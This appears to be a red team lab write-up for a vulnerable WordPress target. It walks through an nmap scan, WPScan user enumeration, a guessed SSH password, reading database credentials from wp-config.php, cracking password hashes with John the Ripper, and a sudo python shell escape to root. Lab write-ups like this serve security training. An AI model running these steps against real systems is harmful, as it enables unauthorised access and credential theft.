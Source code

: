 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap -O -sV 192.168.1.110
```
![Target 1 nmap scan](images/1.png)

This scan identifies the services below as potential points of entry:
- Target 1
  - SSH (TCP port 22) - OpenSSH 6.7p1
  - HTTP (TCP port 80) - Apache 2.4.10
  - rpcbind (TCP port 111) - 2-4 (RPC #100000)
  - netbios-ssn (TCP port 139) - Samba 3.X - 4.X
  - microsoft-ds (TCP port 445) - Samba 3.X - 4.X

The following vulnerabilities were identified on each target:
- Target 1
  - User enumeration via WPScan.
  - Weak user passwords (easily guessable).
  - Poor directory access control.
  - Sensetive information in publically viewable files.
  - Privilege escalation via sudo access to python.

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: b9bbcb33e11b80be759c4e844862482d
    - **Exploit Used**
      - WPScan to enumerate publically accessible users for the wordpress server.
      - wpscan --url 192.168.1.110/wordpress --enumerate u
      
      ![WPScan users result](images/2.png)

      - Guessed password for user michael to gain access to server via SSH.
      - Password: michael
      
      ![SSH access gained](images/3.png)

      - Navigated to /var/www/html and used `cat` to find flag1.
      
      ![Flag1](images/flag1.png)

  - `flag2.txt`: fc3fd58dcdad9ab23faca6e9a36e581c
    - **Exploit Used**
      - While logged in as user michael, navigated to /var/www (default directory for apache websites) and used cat to obtain flag.
      - `cd /var/www`
      - `cat flag2.txt`
      
      ![Flag 2](images/5.png)

  - `flag3.txt`: afc01ab56b50591e7dccf93122770cd2
    - **Exploit Used**
      - Found the MySQL root user password in /var/www/html/wordpress/wp-config.php.
      - `cd /var/www/html/wordpress`
      - `cat wp-config.php`
      - Root password: R@v3nSecurity
      
      ![wp-config.php](images/8.png)

      - Using the root credentials, logged into the MySQL database and manually checked all tables. Flag 3 found in wp_posts
      - `mysql -u root -p`
      - `SHOW DATABASES;`
      - `USE wordpress;`
      - `SHOW TABLES;`
      - `SELECT * FROM wp_posts;`
      
      ![Flag 3](images/9.png)

  - `flag4.txt`: 715dea6c055b9fe3337544932f2941ce
    - **Exploit Used**
      - Found user hashes within the MySQL database table `wp_users` for users `michael` and `steven`. Used `john the ripper` to crack the hash for `steven`.
      - `SELECT * FROM wp_users;`
      
      ![wp_users](images/wpusers-table.jpg)

      - `john wp_hashes.txt`
      - Password: pink84
      
      ![john]()

      - Logged in as user `steven` onto the server and checked if user had sudo permissons.
      - `ssh steven@192.168.1.110`
      - `sudo -l`
      
      ![steven ssh & sudo]()

      - Used the below python script to elevate permissions to the `root` user, navigated to the `root` user's home directory and used `cat` to obtain flag4.
      - `sudo python -c 'import os; os.system("/bin/sh")'`
      - `cd ~`
      - `cat flag4.txt`
      
      ![flag4]()
